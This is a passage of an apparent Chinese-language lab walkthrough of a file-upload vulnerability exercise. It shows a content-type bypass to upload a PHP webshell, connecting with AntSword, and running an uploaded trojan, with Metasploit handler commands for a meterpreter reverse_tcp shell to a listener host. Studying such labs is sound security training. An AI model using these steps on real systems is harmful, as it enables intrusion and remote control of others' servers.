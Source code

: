 ![image-20211224161255191](https://gitee.com/xxb667/img/raw/master/img/image-20211224161255191.png)

修改为正常的图片类型

![image-20211224161924799](https://gitee.com/xxb667/img/raw/master/img/image-20211224161924799.png)

返回页面进行查看，.php已经成功上传

![image-20211224161400612](https://gitee.com/xxb667/img/raw/master/img/image-20211224161400612.png)

## 用蚁剑进行连接

这个文件路径是试过来的

```
http://192.168.1.9/06/vul/unsafeupload/uploads/xxb.php
```

![image-20211224164515696](https://gitee.com/xxb667/img/raw/master/img/image-20211224164515696.png)

### 上传木马文件

木马文件名为 

```
123
```

![image-20211224164713477](https://gitee.com/xxb667/img/raw/master/img/image-20211224164713477.png)

### 用kali进行监听

```
msfconsole
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.38
set LPORT 4444
exploit
```

![image-20211224164953663](https://gitee.com/xxb667/img/raw/master/img/image-20211224164953663.png)

### 用中国蚁剑运行程序

- 连接成功后，在空白处右键

- 选择在【在此处打开终端】进入终端

- 然后运行自己上传的木马文件

  ```
  chmod +x ./123 #赋予执行权限
  ./123 #运行程序
  ```
